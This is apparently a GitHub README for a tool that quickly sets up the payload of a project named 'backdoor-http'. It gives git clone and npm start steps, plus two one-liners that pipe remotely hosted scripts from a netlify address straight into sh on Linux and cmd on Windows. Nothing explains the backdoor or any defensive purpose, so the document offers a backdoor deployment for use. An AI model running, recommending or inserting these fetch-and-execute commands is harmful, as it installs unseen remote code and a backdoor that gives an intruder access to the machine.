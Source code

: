 # fastsetup

Fast setup for [backdoor-http](https://github.com/miguelzacca/backdoor-http) payload

## Usage

```bash
git clone https://github.com/miguelzacca/fastsetup.git
cd fastsetup
npm start
```

## super fastsetup

- Linux:

```bash
curl -L m5.netlify.app/cmd.sh | sh
```

- Windows:

```bash
curl -L m5.netlify.app/cmd.bat | cmd
```

